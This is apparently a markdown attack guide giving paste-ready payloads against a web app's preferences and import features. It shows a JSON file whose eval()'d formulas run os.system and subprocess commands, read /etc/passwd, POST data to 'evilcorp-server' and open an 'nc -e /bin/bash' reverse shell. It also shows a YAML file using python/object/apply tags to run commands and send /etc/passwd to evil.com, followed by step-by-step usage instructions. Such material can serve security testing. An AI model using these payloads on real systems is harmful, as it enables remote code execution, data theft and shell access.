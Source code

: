 
## 1. For Preferences System (JSON with eval())

### Create `malicious_preferences.json`:
```json
{
  "dashboard_layout": "custom",
  "theme": "dark",
  "description": "Custom dashboard configuration with advanced calculations",
  "formulas": {
    "balance_display": "2 + 2",
    "widget_count": "len([1,2,3])",
    "system_info": "__import__('os').system('echo PREFERENCES_PWNED > /tmp/preferences_hacked.txt')",
    "data_exfil": "__import__('subprocess').call(['curl', '-X', 'POST', 'http://evilcorp-server:8888', '--data', 'preferences_compromised'])"
  },
  "calculations": {
    "percentage": "75 * 0.01",
    "backdoor": "__import__('os').system('whoami > /tmp/current_user.txt')",
    "file_read": "open('/etc/passwd').read()[:100]",
    "reverse_shell": "__import__('os').system('nc -e /bin/bash evilcorp-server 5555')"
  }
}
```

**How to use:**
1. Copy the JSON above
2. Go to `/preferences` in your app
3. Paste it into the "Custom Configuration (JSON)" textarea
4. Click "Apply Advanced Configuration"
5. Check `/tmp/` for proof files

---

## 2. For Import System - YAML Attack

### Create `malicious_import.yaml`:
```yaml
# Innocent looking transaction import configuration
transaction_count: 150
import_rules:
  validation: strict
  currency: USD
  batch_size: 50

# Processing settings
processing:
  parallel: true
  validate_amounts: true

# YAML deserialization attacks
malicious_loader: !!python/object/apply:os.system
  - ["echo YAML_PWNED > /tmp/yaml_hacked.txt"]

# Alternative attack - subprocess
command_exec: !!python/object/apply:subprocess.check_output
  - ["whoami"]

# File exfiltration
data_theft: !!python/object/apply:os.system
  - ["curl -X POST http://evil.com/exfil --data @/etc/passwd"]

```